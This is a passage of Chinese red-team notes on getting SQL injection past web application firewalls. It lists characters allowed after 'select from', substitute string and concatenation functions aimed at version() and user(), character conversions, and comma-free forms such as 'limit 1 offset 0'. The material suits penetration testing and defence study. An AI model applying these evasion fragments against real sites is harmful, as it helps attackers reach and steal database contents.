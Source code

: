 **select from 之后的位置**
- 空白字符
- 注释
- `` 号

    ![](../../../../assets/img/Security/RedTeam/安防设备/Bypass_WAF/29.jpg)

- `*` 号

    ![](../../../../assets/img/Security/RedTeam/安防设备/Bypass_WAF/30.jpg)

- `{` 号

    ![](../../../../assets/img/Security/RedTeam/安防设备/Bypass_WAF/31.jpg)

- 括号

    ![](../../../../assets/img/Security/RedTeam/安防设备/Bypass_WAF/32.jpg)

**过滤函数**
- 字符串截取函数
    ```sql
    Mid(version(),1,1)
    Substr(version(),1,1)
    Substring(version(),1,1)
    Lpad(version(),1,1)
    Rpad(version(),1,1)
    Left(version(),1)
    reverse(right(reverse(version()),1)
    ```

- 字符串连接函数
    ```sql
    concat(version(),'|',user());
    concat_ws('|',1,2,3)
    ```

- 字符转换
    ```
    Char(49)
    Hex(‘a’)
    Unhex(61)
    Ascii(1)
    ```

**过滤了逗号**
- limit 处的逗号

    ```
    limit 1 offset 0
    ```

- 字符串截取处的逗号

    ```
    mid(version() from 1 for 1)
    ```
